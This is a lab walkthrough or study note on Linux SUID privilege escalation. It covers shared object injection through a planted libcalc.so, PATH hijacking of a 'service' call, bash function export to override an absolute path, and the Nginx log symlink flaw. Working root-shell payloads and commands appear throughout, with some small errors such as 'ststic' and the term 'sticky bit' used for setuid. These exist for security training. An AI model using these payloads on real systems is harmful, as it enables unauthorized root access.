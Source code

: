 
For basic info on how to find files with SUID or SGID is set, look [[Privilege Escalation#^257fb3|here]].

## Shared Object Injection

Another method we can exploit SUID files is by performing shared object injections. First we need to identify files that rely on shared objects for execution. We can do this using the `strace` tool.

```bash
TCM@debian:~$ find / -perm -04000 -type f -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
```

We can see that there are three files with both SUID and SGID set. Let's have a look at the `/usr/local/bin/suid-so` file first. When we execute the file, we get the following output.

```bash
TCM@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

Since something is happening when the file ie being run, we can use `strace` to trace whats happening when it run. Since most of the output is printed to `stderr`, we need to direct it to `stdout` via `2>&1` for further analysis.

```bash
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
TCM@debian:~$ strace /usr/local/bin/suid-so 2>/dev/null| grep directory
TCM@debian:~$ strace /usr/local/bin/suid-so
execve("/usr/local/bin/suid-so", ["/usr/local/bin/suid-so"], [/* 17 vars */]) = 0
brk(0)                                  = 0x713000
fcntl(0, F_GETFD)                       = 0
fcntl(1, F_GETFD)                       = 0
fcntl(2, F_GETFD)                       = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fc253e19000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=13345, ...}) = 0
mmap(NULL, 13345, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fc253e15000
close(3)                                = 0
.
.
```

We see there are errors saying `No such file or directory`, which is what we are after. We can use `grep` to filter the output and see which files are accessed when the binary is run.

```bash
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1| grep -i -E "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

The `-i` ignores the case and `-E` enables extended regex use so we can use the `|` operator for the `or` functionality.

The `/home/user/.config/libcalc.so` stands out from the rest since it seems to be a user own file. Since we can write to the `/home/user` directory, we can overwrite this file and replace it with a piece of code we want to be executed. 

```C
#include <stdio.h>
#include <stdlib.h>

ststic void inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Next we need to compile it as a shared object using `GCC`.

```bash
TCM@debian:~/.config$ gcc -shared -fPIC -o libcalc.so libcalc.c 
```

Finally, when we execute the initial program we get a console as root.

```bash
TCM@debian:~/.config$ /usr/local/bin/suid-so 
Calculating something, please wait...
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# whoami
root
```


## Binary Symlinks

We can exploit a tool that uses a SUID binary to gain root access by overwriting a file that is used by the tool.

For example, `Nginx < 1.6.2`  has a vulnerability where the `/var/log/nginx/` log directory is owned by `www-data`. Since logging is handled by the master process that runs as `root`, we can manipulate the logging process if we have compromised the `www-data` user.

We can remove the existing log file and create a symlink to the location that points to a shell code. When an error occurs and the master process tried to write it to the error log, instead it executed the command in a shell with the SUID set. Enabling the attacker to gain root access. For more info read [this](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html).

## Environmental Variables

Another way we can exploit SUID files is by manipulating the `PATH` variable. From our initial search, we found out there is file named `/usr/local/bin/suid-env` that has SUID set.

### Relative Path

If we perform a `strings` look up on it, we get the following output.

```bash
TCM@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

It seems like the `service` command is called within the binary. If we can override which file is run when the `service` command is invoked, we can exploit this binary. 

Since the absolute path is not given, we can manipulate the `$PATH` env variable to point `service` to one of our own files as follow.

```bash
TCM@debian:~$ echo 'int main() {setgid(0); setuid(0); system("/bin/bash");}' > /tmp/service.c
TCM@debian:~$ cat /tmp/service.c 
int main() {setgid(0); setuid(0); system("/bin/bash");}
TCM@debian:~$ gcc -o /tmp/service /tmp/service.c
TCM@debian:~$ export PATH=/tmp:$PATH
TCM@debian:~$ $PATH
bash: /tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin: No such file or directory
```

Now, the first place `service` is searched for is the `/tmp` directory and we have written a simple script named `service` to open up `bash`. Now we simply need to execute the `/usr/local/bin/suid-env` binary.

```bash
TCM@debian:~$ id
uid=1000(TCM) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
TCM@debian:~$ /usr/local/bin/suid-env
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

### Absolute Path

Let's look at another binary that uses env variables.

```bash
TCM@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start

TCM@debian:~$ ls -ld /usr/sbin/
drwxr-xr-x 2 root root 4096 May 14  2017 /usr/sbin/
```

Unlike the previous binary, this calls the function by its absolute path. Since only `root` has write privileges to `/usr/bin`, we cannot edit the `service` binary as well.

However, there is another way to manipulate the env variables by defining a function. We will overwrite `/usr/bin/service` with a custom function that will create a copy of `bash` with the sticky bit set and execute it.

```bash
TCM@debian:~$ function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
TCM@debian:~$ export -f /usr/sbin/service
root@debian:~# whoami
root
```

Since we are creating a subshell when the binary is executed, we need to export the function using the `export -f` command.

